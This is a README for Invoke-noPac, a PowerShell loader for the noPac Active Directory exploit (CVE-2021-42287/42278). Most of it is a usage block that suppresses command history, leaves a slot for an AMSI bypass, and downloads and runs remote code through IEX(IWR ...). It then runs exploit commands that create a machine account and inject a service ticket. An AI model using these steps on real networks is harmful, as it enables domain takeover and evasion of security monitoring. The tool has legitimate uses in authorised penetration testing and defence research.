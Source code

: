 # Invoke-noPac

## The .Net assembly is based on my fork https://github.com/ricardojba/noPac that has a few code changes to improve upon the original.

[PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack) style .Net Assembly loader for the [CVE-2021-42287 - CVE-2021-42278] Scanner & Exploit [noPac](https://github.com/ricardojba/noPac).

Usage:

```
Set-PSReadlineOption -HistorySaveStyle SaveNothing

<Insert-Your-AMSI-Bypass-From-AMSI.FAIL-Here>

[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12
# [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}

[system.net.webrequest]::defaultwebproxy = new-object system.net.webproxy('http://proxy:8080')
[system.net.webrequest]::defaultwebproxy.BypassProxyOnLocal = $true
[system.net.webrequest]::defaultwebproxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials

# [system.net.webrequest]::defaultwebproxy.credentials = Get-Credential

IEX(IWR -UseBasicParsing -UserAgent "hi-there-blueteam" 'https://raw.githubusercontent.com/ricardojba/Invoke-noPac/main/Invoke-noPac.ps1')

Invoke-noPac
Invoke-noPac -Command "scan -domain full.domain -user domain_user -pass Password123!"
Invoke-noPac -Command "scan -domain full.domain -user domain_user -pass Password123! /enctype rc4"
Invoke-noPac -Command "-domain full.domain -user domain_user -pass Password123! /enctype rc4 /dc dc.full.domain /mAccount testmachine /mPassword testmachinepass /service cifs /ptt"
```

## Credits

[cube0x0](https://twitter.com/cube0x0) for the original [noPac](https://github.com/cube0x0/noPac).
